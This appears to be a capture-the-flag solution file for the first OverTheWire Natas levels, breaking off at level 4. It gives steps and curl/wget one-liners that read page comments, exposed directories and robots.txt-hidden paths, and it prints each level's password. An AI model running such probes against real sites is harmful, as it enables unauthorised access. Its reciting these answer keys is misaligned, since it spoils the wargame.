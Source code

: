 # Solution

---

- natas0
    - ```Login to web:```
    - ```inspec element the page and look for comments```

- other solution:
    - ```view-source:http://natas0.natas.labs.overthewire.org/```

- automated:
    - ```wget --user=natas0 --password=natas0 -q -O - http://natas0.natas.labs.overthewire.org/ | grep -oe '<!--[A-Za-z].*' | cut -d ' ' -f6```

- natas1
    - ```Login to web:```
    - ```view-source:http://natas0.natas.labs.overthewire.org/```

- automated:
    - ```curl -sv http://natas1.natas.labs.overthewire.org --user natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto | grep -o '<!--[A-Za-z].*' | awk '{print $6}'```
- python:
    - [solve.py](https://github.com/catx0rr/overthewire/blob/master/natas/natas0/solve.py)

- natas2
    - ```Login to web:```
    - ```view-source:http://natas2.natas.labs.overthewire.org```
    - ```click on files/pixel.png```
    - ```go back one directory and found users.txt```

- automated:
    - ```curl -sv http://natas2.natas.labs.overthewire.org/files/users.txt --user natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi | grep natas3 | awk -F: '{print $2}'```

- natas3
    - ```Login to web:```
    - ```view-source:http://natas3.natas.labs.overthewire.org```
    - ```HINT:Not even Google will find it this time...```
    - ```http://natas3.natas.labs.overthewire.org/robots.txt```
    - ```Found: /s3cr3t/```
    - ```http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt```

- automated:
    - ```curl -sv http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 | grep natas4 | cut -d':' -f2```

- natas4
    -
